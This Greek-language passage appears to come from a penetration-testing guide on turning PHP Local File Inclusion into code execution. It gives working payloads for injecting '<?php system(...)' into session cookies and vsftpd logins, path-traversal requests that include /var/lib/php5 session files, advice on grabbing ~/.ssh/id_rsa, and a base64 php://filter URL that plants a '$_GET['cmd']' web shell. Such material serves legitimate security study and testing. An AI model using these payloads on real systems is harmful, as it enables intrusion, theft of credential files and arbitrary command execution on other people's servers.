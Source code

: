 Ελέγξτε αν η ιστοσελίδα χρησιμοποιεί PHP Session (PHPSESSID)
```
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```
Στο PHP, αυτές οι συνεδρίες αποθηκεύονται στα _/var/lib/php5/sess\\_\[PHPSESSID]\_ αρχεία.
```
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```
Ρυθμίστε το cookie σε `<?php system('cat /etc/passwd');?>`
```
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```
Χρησιμοποιήστε το LFI για να συμπεριλάβετε το αρχείο συνεδρίας PHP.
```
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm2
```
### Via ssh

Αν το ssh είναι ενεργό, ελέγξτε ποιος χρήστης χρησιμοποιείται (/proc/self/status & /etc/passwd) και προσπαθήστε να αποκτήσετε πρόσβαση στο **\<HOME>/.ssh/id_rsa**

### **Via** **vsftpd** _**logs**_

Τα logs για τον FTP server vsftpd βρίσκονται στο _**/var/log/vsftpd.log**_. Στο σενάριο όπου υπάρχει ευπάθεια Local File Inclusion (LFI) και είναι δυνατή η πρόσβαση σε έναν εκτεθειμένο server vsftpd, τα παρακάτω βήματα μπορούν να ληφθούν υπόψη:

1. Εισάγετε ένα PHP payload στο πεδίο ονόματος χρήστη κατά τη διαδικασία σύνδεσης.
2. Μετά την εισαγωγή, χρησιμοποιήστε το LFI για να ανακτήσετε τα logs του server από το _**/var/log/vsftpd.log**_.

### Via php base64 filter (using base64)

Όπως φαίνεται σε [αυτό](https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64) το άρθρο, το PHP base64 filter απλώς αγνοεί τα μη base64. Μπορείτε να το χρησιμοποιήσετε για να παρακάμψετε τον έλεγχο της επέκτασης αρχείου: αν παρέχετε base64 που τελειώνει με ".php", θα αγνοήσει απλώς το "." και θα προσθέσει "php" στο base64. Ακολουθεί ένα παράδειγμα payload:
```url
http://example.com/index.php?page=PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.php

NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```
### Via php filters (no file needed)

Αυτή η [**αναφορά**](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d) εξηγεί ότι μπορείτε να χρησιμοποιήσετε **php filters για να δημιουργήσετε αυθαίρετο περιεχόμενο** ως έξοδο. Αυτό σημαίνει βασικά ότι μπορείτε να **δημιουργήσετε αυθαίρετο php κώδικα** για την συμπερίληψη **χωρίς να χρειάζεται να τον γράψετε** σε ένα αρχείο.
